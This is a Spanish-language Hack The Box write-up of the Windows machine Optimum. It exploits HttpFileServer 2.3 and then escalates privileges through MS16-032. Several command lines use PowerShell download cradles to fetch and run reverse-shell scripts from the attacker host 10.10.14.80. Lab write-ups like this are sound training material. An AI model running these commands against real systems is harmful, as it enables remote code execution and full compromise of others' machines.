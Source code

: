 # Optimum-HTB 

Maquina Windows

## NMAP

Solo tiene el puerto 80 abierto..

##  RCE 

Pues entramos al puerto 80 y vemos que ejecuta "HttpFileServer 2.3"

![image](https://github.com/gecr07/Optimum-HTB/assets/63270579/650fe637-acbf-4b1b-aaa1-371757a8402a)

Buscamos en searchsploit y existe de una el exploit...

![image](https://github.com/gecr07/Optimum-HTB/assets/63270579/5f64a75d-ebe8-4ee4-b92c-68e7e6ac47af)

De aqui en adelante depende lo que se va a hacer ya que si estas en 64 o 32 como proceso (porque el sistema es de 64bits)

### Rutas de powershell segun si es x86 o x64

Porque depende en Windows que ruta llames para que te de un proceso en el contexto de 32 bits o 64 las rutas y que se usaron para este exploit son:

Powershell de un proceso de 32 a un ps de 64 pero el HFS corre en 32 recuerda:

```
C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe
```

Pero el HFS corre en 32 recuerda. La siguiente ruta va a lanzar el ps en 32bits

```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

Esto porque las rutas de Windows son:

![image](https://github.com/gecr07/Optimum-HTB/assets/63270579/655ec89c-e633-411a-a5b0-3e0b670bd5ce)

Ejecutando el exploit 

```
64 bits
python 49125.py 10.129.8.234 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.80/Invoke-PowerShellTcp.ps1')"
32bits
python 49125.py 10.129.8.234 80 "c:\windows\System32\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.80/Invoke-PowerShellTcp.ps1')"
```

![image](https://github.com/gecr07/Optimum-HTB/assets/63270579/abf869fd-3dbe-4720-9e65-5fe563af9349)


Para saber desde powershell la arquitectura

```
[Environment]::Is64BitProcess
```

## PrivEsc

Ahora para escalar vamos a hacer reconocimiento basico..

```
systeminfo
net user
net localgroup
netstat -ano
```

Ahora bajamos el Winpeas.exe y ejecutamos aunque como es una maquina vieja probamos con los exploits para esto tenemos varias alternativas...

### Watson 

Es una herramienta para sugerencia de exploits ya descontinuada como por el 2021 aun jala para que funcione el minimo que necesita es el NET Framework 4.5.

> https://github.com/rasta-mouse/Watson

Lo malo de esta herramienta es que se tiene que compilar en la maquina Devel ahi se muestra como lo compilan con diferentes opciones.


### Sherlock

Esta es el predesesor de Watson y es un script en powershell ya sabes esta descontinuado casi a la par del Watson

```
Import-Module Sherlock.ps1
Y ya despues que buesque
Find-AllVulns
```
> https://github.com/rasta-mouse/Sherlock

![image](https://github.com/gecr07/Optimum-HTB/assets/63270579/bcbf5fdf-460a-4ae5-a42d-cf5a02447281)

Encontramos que tiene una vulnerabildiad a MS16-032 la primera version genera una shell pero ni lanzandola con nc pude hacerla jalar por lo tanto use la version modificada por el equipo de empire

> https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1


Hasta abajo puse para que se auto llame el proceso seria el siguiente

```
powershell IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.80/Invoke-MS16032.ps1')
La linea que se le agrego es
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.80/rev1.ps1')"

```

Asi que primero carga en la memoria todo y ya despues lo ejecuta. Lo anterior regresa un shell con todos lo privilegios....


![image](https://github.com/gecr07/Optimum-HTB/assets/63270579/bef40c66-44dc-4b97-b0b4-8aa3a696f26e)


























































